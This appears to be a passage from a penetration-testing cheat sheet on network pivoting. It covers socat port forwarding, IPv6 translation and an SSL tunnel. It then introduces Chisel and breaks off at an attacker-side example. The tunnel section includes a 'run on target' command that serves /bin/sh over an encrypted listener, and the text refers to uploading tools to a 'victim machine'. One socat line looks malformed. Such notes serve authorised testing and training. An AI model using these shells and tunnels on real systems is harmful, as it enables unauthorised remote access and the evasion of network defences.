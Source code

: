 ### Redirect all Port A connections locally to Port B
```bash
socat TCP4-LISTEN: [port_b], reuseaddr, fork TCP4-LISTEN:[port_a],reuseaddr
```

### Port to remote ip and port
```bash
socat TCP-LISTEN:[lport],fork TCP:[redirect ip]:[rport] &
```

### Translate between IPv4 and IPv6
```bash
socat TCP-LISTEN:[lport],fork TCP6:[redirect ipv6]:[rport] &
```

### Socat SSL tunnel
```bash
// Generate 
filename=server
openssl genrsa -out $filename.key 1024
openssl req -new -key $filename.key -x509 -days 3653 -out $filename.crt
cat $filename.key $filename.crt > $filename.pem
chmod 600 $filename.key $filename.pem

// run on target
socat OPENSSL-LISTEN:443, reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh

// on local

socat STDIO OPENSSL-CONNECT:localhost:443,cert=$filename.pem,cafile=$filename.crt
```

## Chisel

**Chisel** is a fast TCP/UDP tunneling tool that operates over HTTP, secured via SSH. It includes both client and server functionalities in a single executable, making it a powerful and versatile tool for port forwarding. Written in Go (Golang), Chisel is known for its speed and simplicity, and it's especially useful in penetration testing scenarios.

### Installation

You can easily install Chisel on Kali Linux using the following command:

```bash
apt install chisel
```

To use Chisel on a victim machine, you will need to upload the Chisel binary. Precompiled versions are available for download [here](https://github.com/jpillora/chisel/releases).

### Local Port Forwarding Example

1. **On the Attacker Machine:**
   - Start the Chisel server with reverse port forwarding:
   